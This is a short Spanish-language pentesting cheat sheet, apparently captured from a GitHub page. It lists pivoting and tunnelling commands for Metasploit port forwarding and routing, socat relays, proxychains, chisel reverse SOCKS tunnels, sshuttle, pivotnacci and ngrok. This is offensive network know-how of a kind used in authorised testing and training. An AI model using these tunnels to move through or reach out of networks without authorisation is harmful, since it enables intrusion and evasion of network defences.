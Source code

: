 Metasploit
     portfwd add –l 3389 –p 3389 –r target-host

Socat
     https://github.com/3ndG4me/socat
     socat TCP4-LISTEN:81 TCP4:IP:PORT
     socat TCP4-LISTEN:81,fork,reuseaddr TCP4:TCP4:IP

Proxychains (Configurar primero Proxychains socks4 o socks5)
     /etc/proxychains.conf
     [ProxyList]
     socks4 localhost 8080
     socks5 localhost 1080

Chisel
     https://github.com/jpillora/chisel
     Server: chisel server -p 443 -reverse -v --socks5
     Client: chisel client <server_ip>:443 R:socks

Sshuttle:
     https://github.com/sshuttle/sshuttle
     sshuttle -r username@sshserver IP -vv
     DNS: sshuttle --dns -vvr username@sshserver 0/0

SharpSocks:
     https://github.com/nettitude/SharpSocks

Pivotnacci:
     https://github.com/blackarrowsec/pivotnacci
     pivotnacci https[:]//domain[.]com/agent  --password "s3cr3t"
     pivotnacci https[:]//domain[.]com/agent  --polling-interval 2000

Metasploit
     run autoroute -s subnet /24
     route add subnet subnet_mask session_id 
     use auxiliary/server/socks_proxy

Para utilizar los túneles y pasar a traves de internet, podemos usar VPS o herramientas como Ngrok.
https://lnkd.in/dBqFskwM
./ngrok http 4433
./ngrok tcp 4433

Footer
© 2023 GitHub, Inc.
Footer navigation
Terms
Privacy
Security
Status
Docs
Contact GitHub
Pricing
API
Training
Blog
About
